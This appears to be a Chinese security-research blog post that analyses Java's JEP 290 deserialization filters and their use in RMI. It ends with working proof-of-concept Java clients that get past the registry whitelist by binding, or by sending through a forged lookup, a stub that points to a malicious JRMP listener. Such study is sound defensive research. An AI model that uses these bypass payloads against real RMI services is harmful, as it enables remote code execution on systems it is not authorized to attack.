









# Intro

上一节介绍的RMI反序列化入口都是JDK自带的rmi包中，很难想象官方会不去修复或缓解这个漏洞。

针对此JDK9加入了一个反序列化的安全机制————JEP 290

> JEP：Java Enhancement Proposal 即Java增强提议，像新语法什么的都会在这出现

是在Java9提出的，但在JDK6、7、8的高版本中也引入了这个机制（JDK8121、JDK7u131、JDK6u141）

官方的描述👉https://openjdk.org/jeps/290

> JEP 290: Filter Incoming Serialization Data
>
> Allow incoming streams of object-serialization data to be filtered in order to improve both security and robustness.

对输入的对象序列化数据流进行过滤，以提高安全性和鲁棒性。

根据官方的描述，核心机制在于一个可以被用户实现的filter接口，作为`ObjectInputStream`的一个属性，反序列化时会触发接口的方法，对序列化类进行合法性检查。每个对象在被实例化和反序列化之前，过滤器都会被调用，除去Java的基本类型和`java.lang.String`（若过滤器未设置，默认使用全局过滤器）。此外，针对RMI，用于导出远程对象的`UnicastServerRef`中的`MarshalInputStream`也设置了过滤器，用于验证方法参数的合法性。

下面的分析都基于JDK8u202，其他版本应该类似。

> 我们下载的`Oracle JDK`只提供了java和javax包下的源码，没有sun包源码
>
> 需要去OpenJDK官网下载JDK源码，如8u202👉https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/4d01af166527，点击zip下载源码
>
> 下载的压缩包下src/share/classes，将sun目录复制到JDK的安装目录下的src，IDEA中Project Structure->SDKs->SourcePath，添加src目录
>
> 这样就不用看🤮反编译结果了✌️

# ObjectInputFilter

原生反序列化的入口在`ObjectInputStream#readObject`，在这里设置过滤器再合适不过。JEP 290在`ObjectInputStream`类中增加了一个`serialFilter`属性和一个`filterCheck`方法。

## serialFilter

`ObjectInputStream`的构造方法初始化了`serialFilter`


`Config`是`sun.misc.ObjectInputFilter`这个接口的一个静态内部类，`getSerialFilter`返回`Config`的静态字段`serialFilter`

这个静态字段在`Config`的静态代码块中进行初始化


试试打印这两个全局属性，发现是null，所以默认反序列化过滤器为空

```java
System.getProperty("jdk.serialFilter");
Security.getProperty("jdk.serialFilter")
```

若有设置这两个全局属性，才会构造序列化过滤器。

`serialFilter`是`ObjectInputFilter`接口类，`ObjectInputStream#setObjectInputFilter`（JDK9以下是`setInternalObjectInputFilter`）用于设置过滤器。（相应的也有`getObjectInputFilter`用于获取过滤器）

下面看看当`jdk.serialFilter`全局属性不为空时，如何创建一个过滤器

`ObjectInputFilter.Config#createFilter`


关于pattern的规则，注释也写得很详细明了了。

反序列化时检查类有三种状态：`ALLOWED`、`REJECTED`、`UNDECIDED`

见`ObjectInputFilter`接口的枚举类`Status`


这里插入一个测试例子


反序列化时成功抛出`InvalidClassException`异常，显示过滤器状态为`REJECTED`

接着交给`ObjectInputFilter.Config.Global#createFilter`去创建过滤器

`Global`本身就实现了`ObjectInputFilter`接口


`Global`的构造函数会解析我们传入的匹配规则pattern，将规则解析成一个个lambda表达式，lambda表达式会返回`ObjectInputFilter.Status`

```java
private final List<Function<Class<?>, Status>> filters;
```


* 过滤包下的所有类

pkg为我们设置的待过滤包名


pkg与`Class.getName()`进行比较


* 过滤包下的所有类及所有子包


* 过滤某个前缀


* 过滤某个类


总结：`ObjectInputStream`的构造方法中获取`serialFilter`(`ObjectInputFilter`接口类)，即`ObjectInputFilter.Config`的静态成员`serialFilter`，其在`Config`的静态代码块中初始化，若有通过`System`或`Security`设置全局属性`jdk.serialFilter`，则创建反序列化过滤器（默认为null，不创建）。最后调用`ObjectInputFilter.Config.Global`的构造方法，`Global`实现了`ObjectInputFilter`接口，所以它本身就是一个过滤器。`Global`的构造方法中对传入的过滤规则pattern解析成一个个lambda表达式，放入自身的`filters`字段中。

## filterCheck

`ObjectInputStream#filterCheck`会对类进行过滤


* 判断`serialFilter`是否为空
* 交给`serialFilter#checkInput`进行类检测
* 若返回状态为`null`或`REJECTED`，抛出`InvalidClassException`异常

这里封装了一个`FilterValues`对象（这个类实现了`ObjectInputFilter.FilterInfo`接口）


`Global#checkInput`会检测如下内容：

* 数组长度是否超过`maxArrayLength`
* 类名是否在黑名单`filters`
* 对象引用是否超过`maxReferences`
* 序列流大小是否超过`maxStreamBytes`
* 嵌套对象的深度是否超过`maxDepth`




## customized filter

上面通过设置全局属性`jdk.serialFilter`，创建的是全局过滤器，因为`ObjectInputFilter.Config`类初始化，`Global`这个过滤器被创建并赋值给`Config.serialFilter`，每次创建`ObjectInputStream`对象都是去拿`Config`的`serialFilter`属性。

### Local customization

若想设置局部自定义过滤器，可以调用`ObjectInputStream#setInternalObjectInputFilter`，传入自定义的`ObjectInputFilter`（JDK9及以上是`setObjectInputFilter`）


或者调用`ObjectInputFilter.Config#setObjectInputFilter`，需要传入`ObjectInputStream`对象和自定义的过滤器


### Global customization

可能需要通过反射去修改Config的`serialFilter`属性

因为对象实例化后`serialFilter`已经被赋值了，但`setSerialFilter`会检查`serialFilter`是否为空，不为空就改不了。这方法估计就是用来代替设置`jdk.serialFilter`全局属性的。


# Filter in RMI

## Normal RemoteObject

RMI在调用远程方法时，服务端会反序列化客户端发送的序列化参数对象。

`sun.rmi.server.UnicastServerRef#dispatch`


`UnicastServerRef`多了一个属性`filter`，可在构造的时候传入。

`unmarshalCustomCallData`设置了一个局部过滤器，对传入的`MarshalInputStream`设置`serialFilter`，来过滤远程方法的调用参数。


但很可惜这个filter默认是null，也就是默认没有反序列化过滤器。

远程对象继承了`UnicastRemoteObject`，其构造方法会把自身导出，


可以看到这里构造`UnicastServerRef`时默认过滤器为null。

## RegistryImpl

但对于注册中心`RegistryImpl`的创建，就指定了一个过滤器。


> 这里的`::`表示方法引用，配合函数式接口使用，比如：
>
> ```java
> interface Converter {
>     String convert(String input);
> }
> 
> // 使用静态方法引用实现函数式接口
> Converter converter = String::toUpperCase;
> String result = converter.convert("hello"); // HELLO
> ```
>
> 函数式接口是只有一个抽象方法的接口，可以使用lambda表达式或方法引用来实现该抽象方法。避免匿名类的构造。Java中的函数式接口使用`@FunctionalInterface`注解进行标识。

刚好`ObjectInputFilter`有`@FunctionalInterface`注解


`RegistryImpl::registryFilter`设置了一个白名单，只允许反序列化特定类的子类

`父类.class.isAssignableFrom(子类.class)`


`RegistryImpl`的`registryFilter`属性在初始化时读取全局属性`sun.rmi.registry.registryFilter`，读不到也是默认null过滤器。


`Config.createFilter2`和`Config.createFilter`的区别在于前者不会检测数组里的元素类型。

## DGCImpl

同样`DGCImpl`也设置了自己的白名单





# Bypass JEP290 in RMI

首先就是对于普通的远程对象，其`UnicastServerRef`的`filter`默认为null，因此传输恶意对象让其进行反序列化仍可以打。

感觉这个叫bypass很勉强，只是JEP290对反序列化的点没有防御全面，而不是防御逻辑出问题。

其次注意到上面的防护只是针对服务端的引用层，都是在`UnicastServerRef`中调用`unmarshalCustomCallData`将`filter`注册进来，

而对于客户端的引用层`UnicastRef`，并没有发现过滤器的注册，因此`payloads.JRMPClient`/`exploit.JRMPListner`仍可以打

既然对于客户端没有防护，那么能不能让服务端变成客户端呢？

注册中心设置白名单肯定要保证原本功能的正常运行，也就是通过`bind`传递的`Stub`肯定要能被反序列化，才能被注册中心接收。

看一眼白名单，`Remote`、`UnicastRef`、`UID`、`Number`、`String`这些基本的`bind`要传的类是有的

结合前面RMI讲的`UnicastRef`反序列化会触发`DGC`的`dirty`，因此我们构造一个指向我们恶意JRMP服务的远程对象Stub，让注册中心往我们的恶意服务端发送租赁请求，接着返回恶意数据让其反序列化。

```java
public class RMIServer {
    public static void main(String[] args) throws Exception {
        LocateRegistry.createRegistry(1099);
        while (true) {
            Thread.sleep(10000);
        }
    }
}
```

```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Remote proxy = (Remote) Proxy.newProxyInstance(RMIClient.class.getClassLoader(), new Class[]{
                Remote.class
        }, obj);
        registry.bind("x", proxy);
    }
}
```

`TCPEndpoint`指向了`JRMPListener`的主机和端口



上面的payload只能在本地打通。

之前不是说注册中心压根没有做身份验证嘛，任何人都可以随便`bind`对象上去

高版本RMI修复了这个问题，`RegistryImpl_Skel`在调用`bind`、`rebind`、`unbind`之前会判断客户端的IP和本机IP是否相同





当然`list`、`lookup`这些客户端正常使用的功能就没有这个限制



但是如果客户端直接调用`lookup`，只能传递字符串。

我们可以直接仿造`RegistryImpl_Stub`实现一个`lookup`方法，使其接收`Object`对象，并把`opnum`改成`lookup`对应的2

```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        lookup(registry, obj);
    }

    public static Remote lookup(Registry registry, Object obj)
            throws Exception {
        RemoteRef ref = (RemoteRef) getFieldValue(registry, "ref");
        long interfaceHash = Long.valueOf(String.valueOf(getFieldValue(registry, "interfaceHash")));

        java.rmi.server.Operation[] operations = (Operation[]) getFieldValue(registry, "operations");
        java.rmi.server.RemoteCall call = ref.newCall((java.rmi.server.RemoteObject) registry, operations, 2, interfaceHash);
        try {
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(obj);
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            ref.invoke(call);
            return null;
        } catch (RuntimeException | RemoteException | NotBoundException e) {
            if(e instanceof RemoteException| e instanceof ClassCastException){
                return null;
            }else{
                throw e;
            }
        } catch (java.lang.Exception e) {
            throw new java.rmi.UnexpectedException("undeclared checked exception", e);
        } finally {
            ref.done(call);
        }
    }

    public static Object getFieldValue(Object o, String name) throws Exception {
        Class<?> superClazz = o.getClass();
        Field f = null;
        while (true) {
            try {
                f = superClazz.getDeclaredField(name);
                break;
            } catch (NoSuchFieldException e) {
                superClazz = superClazz.getSuperclass();
            }
        }
        f.setAccessible(true);
        return f.get(o);
    }
}
```

`JDK 8u231`修复了`DGCImpl_Stub`，反序列化前设置了过滤器





```java
return (clazz == ObjID.class ||
        clazz == UID.class ||
        clazz == VMID.class ||
        clazz == Lease.class) ? ObjectInputFilter.Status.ALLOWED: ObjectInputFilter.Status.REJECTED;
```

白名单绕不过了。

后面的版本`UnicastRef`貌似也没有对异常类进行反序列化了。

# Filter in WebLogic

海妹学weblogic，占个位

# Ref

* https://paper.seebug.org/1689/
* https://xz.aliyun.com/t/8706
* https://baicany.github.io/2023/07/30/jrmp/
